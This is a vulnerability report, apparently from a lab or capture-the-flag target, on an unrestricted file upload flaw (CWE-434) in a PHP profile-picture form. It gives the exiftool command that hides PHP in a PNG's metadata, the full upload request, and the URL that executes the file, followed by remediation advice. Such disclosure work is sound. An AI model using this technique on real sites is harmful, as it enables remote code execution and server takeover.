

# Unrestricted Upload Of File with Dangerous Type

 

# Description

The application is vulnerable to **Unrestricted File Upload (CWE-434)**, allowing attackers to upload files with dangerous types, such as PHP scripts. The uploaded file is not properly validated or handled, enabling the execution of arbitrary PHP code. In this case, the attacker can upload a file named `shell.php.png` (or other PHP scripts with double extensions) and execute it via a URL manipulation. The PHP code was embedded using `exiftool`.

# Exploitation

An attacker can upload a PHP file disguised as an image (e.g., `shell.php.png`) to the server via the vulnerable upload endpoint:

- **Upload endpoint:**
    
    `POST https://9c20782de35f.3xploit.me/index.php?page=user/profile.php`
    

By uploading `shell.php.png` as a profile picture, the malicious PHP payload is stored on the server.

The attack is carried out by embedding PHP code inside the file using `exiftool` to modify the file metadata.

The attacker can exploit this vulnerability by:

1. Uploading a malicious PHP file disguised as an image with PHP code embedded via `exiftool`.
2. Accessing the uploaded file by manipulating the URL (removing or modifying file extensions).
3. Executing arbitrary PHP code on the server.

# PoC

Example:

Upload a file with the name `shell.php.png` containing PHP code:

```php
<?php phpinfo(); ?>
```

Embed the PHP code using `exiftool`:

```php
exiftool -Comment='<?php phpinfo(); ?>' shell.php.png
```

Exemple of request

```php
POST /index.php?page=user/profile.php HTTP/2
Host: 9c20782de35f.3xploit.me
Cookie: PHPSESSID=90547372750d8ea1cc6e9d9c0fda8686
Content-Length: 10475
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://9c20782de35f.3xploit.me
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://9c20782de35f.3xploit.me/index.php?page=user/profile.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="email"
test@gk.com
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="bio"
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="profile_picture"; filename="shell.php.png"
Content-Type: image/png
IHDR
        pHYs
tEXtSoftware
www.inkscape.org
tEXtComment
<?php phpinfo(); ?>
IDATx
7$      Q
^(TE
d}g_%
)fjJ
B9g]O
(Q25{
GiiP
B'A}Q
23;;t
:AY<
eU.8
\<xP
 Y>x
e~R
(wKW
	(wk\<
^N,t
tGGk!/6
b:RM
?V_oi
;9~\
q)A&m}
(]XG
$#gd
Ui6qoc
BmeW
->V~
}&-_
s%M+9
kBg@
ei4lv
,;)t
HyLOG&
jMqS
1_>8d
>'iZ
C ^=
QP/<
Z[\:=
S]:M
2}3t
XO{z
-sCg@
wN'm
dzw#
A]q
43)m
g\&}
+G/[
uMs~+t(
} t0
k7IzHR;t0
;~Lx
ni[r
K~r{
6W7vV
j%6W}
+]>'t
6W7$
|R'k
?/Nm
o%-R
@=e:
Ww8EO
)\o[
WIDAT
fWru
2>      `
OH:}
kjMs
^'iR
^SR3p
%][P4
[=:x
?^W5
IEND
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="password"
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="confirm_password"
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b
Content-Disposition: form-data; name="csrf_token"
b85d238a1c28cc896017e7eff68093e1774e286684ecd9417a46ad3711c1a408
------WebKitFormBoundaryBTfpFwGkzMx8ZZ7b--
```

Once uploaded, access the file through the URL manipulation:

```php
https://9c20782de35f.3xploit.me/index.php?page=uploads/shell.php.png
```



# Risk

The risk of this vulnerability is high as it allows attackers to execute arbitrary PHP code on the server, potentially compromising the web server and the entire system. This could lead to a complete server takeover, data breach, or further attacks on the network. The file upload functionality does not properly validate file types or restrict dangerous extensions, allowing the upload of arbitrary code.

# Remediation

To mitigate this vulnerability, the following measures should be implemented:

- **File type validation:** Only allow specific, safe file types for upload (e.g., images like `.jpg`, `.png`, `.gif`).
- **Sanitize uploaded files:** Ensure that the files are properly sanitized and checked to ensure they are not executable or contain malicious code.
- **Restrict file extensions:** If images are being uploaded, enforce strict checks on file extensions and MIME types. Additionally, consider changing the upload directory so that files are not served directly by the web server.
- **Disable PHP execution in the upload directory:** Configure the web server to prevent PHP scripts from being executed in the directory where uploads are stored.

# References

[Persistent PHP payloads in PNGs](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)

# Author

4fromages